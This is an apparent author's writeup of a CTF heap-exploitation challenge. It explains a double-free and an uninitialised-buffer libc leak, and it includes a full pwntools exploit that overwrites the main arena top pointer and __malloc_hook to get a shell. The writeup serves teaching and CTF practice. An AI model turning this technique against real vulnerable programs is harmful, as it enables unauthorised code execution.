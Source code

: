 ```yaml
---
title: "Strground official writeup"
description: "Strground is a pwn challenge I created for Unbreakable Romania 2024."
date: "Mar 22 2024"
---
```

Strground is a heap exploitation challenge I made for the individual phase of the Unbreakable Romania CTF.

In the zip file we receive libc.so.6 which is GLIBC 2.30, however tcache is disabled. So this will be a fastbins heap challenge.
The binary has all the mitigations except canary:
![](./checksec.png)

Opening the binary in ida, we have 3 interesting functionalities:

1. CREATE:
![](./create.png)

It creates a heap chunk with the size of the length of the string sent. However the size can't be bigger than 0x57.

2. DELETE:
![](./delete.png)

It deletes the heap chunk corresponding to the index you send.

3. ENCODE:
![](./encode.png)

It executes a simple ROT encoding algorithm on your string.

The binary is clearly vulnerable to double free. After freeing a chunk via the DELETE command the pointer isn't nulled.
A double free occurs when the free() function is called more than once for the same memory address without allocating it again in between.
Now, when you request a new chunk of that size using malloc, the allocator will allocate a block that has been freed twice. This can result in two different pointers referencing the same memory location. If an attacker controls one of these pointers, they can alter the contents of the memory, potentially enabling them to execute arbitrary code.

Let's try this. Create a double free:
![](./doublefree.png)

Dynamically inspecting the heap, we can see that the program free'd the same memory twice.
![](./doublefree2.png)

Usually this would have been a free win. Make a fake chunk before the ```__malloc_hook``` and use the values from the libc pointers to create a fake size (since all libc addresses usually start with 0x7f).

The problem? You can malloc chunks up to size 0x60, which means you won't be able to create a 0x70 sized chunk to be able to overwrite malloc hook with a usual exploitation.

So, what can we do? This is where the main arena comes into place.
In glibc, memory allocation functions such as malloc, free, realloc, etc., are implemented using a heap management system. The "main arena" is the primary heap from which memory is allocated. It is a central structure that manages memory blocks, and keeps track of free and allocated memory chunks.

This would be a representation of the main arena for the fastbins:
![](./arena.png)

The intended solution was to use two double frees. In the first double free we will put a fake size in the main arena. In the second double free we will put a pointer in the main arena so when we allocate the next 0x60 sized chunk, malloc will interpret the chunk at the main arena as a valid chunk and we will be able to overwrite the main arena's top pointer.

This might sound complicated, so let's put it into practice.
The leak part of the exploit is straightforward: the ENCODE function uses a buffer that isn't initialized to zero and still contains random addresses from the stack. We'll create an empty string so that when encoding, the addresses from the stack will be encoded and printed.
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))
```

After getting the libc base address we can continue with our exploitation. First, we'll set a fake size in the main arena.
```python
# First double free to put fake size in main_arena
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
```

Inspecting the main arena:
![alt text](./mainarena.png)

We can notice our fake size was put in 0x0007f2ee0db4b88 which normally is the place for the 0x50 fastbin pointer. We'll continue with the next double free to set a pointer in the place for the 0x60 fastbins.
```python
# Address in main_arena where the pointer for 0x60 fastbins
# should be - 16 accounting for heap chunk metadata
create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
```

Inspecting the main arena again:
![](./mainarena2.png)

Now, the next 0x60 chunk will start at the selected address in main_arena. Lets test this and create a string with 0x57 A's
![](./mainarena3.png)

And our logic was correct. The next 0x60 sized chunk started in the main_arena and we successfully overwrote the main arena top pointer. 

The rest is easy, overwrite the top pointer with the address of ```__malloc_hook``` - 35 (Accounting for the fake chunk size needed) and then overwrite the malloc hook with one_gadget. We'll also need to replace addresses after the top chunk so malloc won't fail.
```python
create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) + 
b'\x00'*8 + p64(Libc + 3886016) * 2)

# Overwrite &__malloc_hook
create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))

# Execute the one_gadget with a random malloc call
create(b"CREATE " + b'A'*0x28)
```

The full exploit:
```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chall")
p = elf.process()
#p = remote("127.0.0.1", 1338)

def create(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

def delete(payload):
	p.sendline(payload)
	sleep(0.1)
	p.readuntil(b'\n')

# Get libc leak
p.sendline(b"CREATE ")
p.readuntil(b'\n')
p.sendline(b"ENCODE 0")
p.readuntil(b'\n')

bytes_list = []

for _ in range(6):
    byte = ord(p.read(1)) - 3
    bytes_list.append(byte)

bytes_list.reverse()
address_str = '0x' + ''.join(
    format(byte, '02x') for byte in bytes_list)
Libc = int(address_str, 16) - 6458048 
print("Libc : {}".format(hex(Libc)))

create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)
delete(b"DELETE 1")
delete(b"DELETE 2")
delete(b"DELETE 1")
create(b"CREATE " + p64(0x61) + b'\x00'*0x38)
create(b"CREATE luma123" + b'\x00'*0x38)
create(b"CREATE Luma123" + b'\x00'*0x38)

create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)
delete(b"DELETE 6")
delete(b"DELETE 7")
delete(b"DELETE 6")

create(b"CREATE " + p64(Libc + 3885952) + b'\x00'*0x48)
create(b"CREATE luma1234" + b'\x00'*0x48)
create(b"CREATE Luma1234" + b'\x00'*0x48)

create(b"CREATE " + b"A"*48 + p64(Libc + 3885869) +
b'\x00'*8 + p64(Libc + 3886016) * 2)

create(b"CREATE " + b"A"*19 + p64(Libc + 0xe1fa1))
create(b"CREATE " + b'A'*0x28)

p.interactive()
```

Executing it we get a shell:
![](./shell.png)

Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/strground.zip)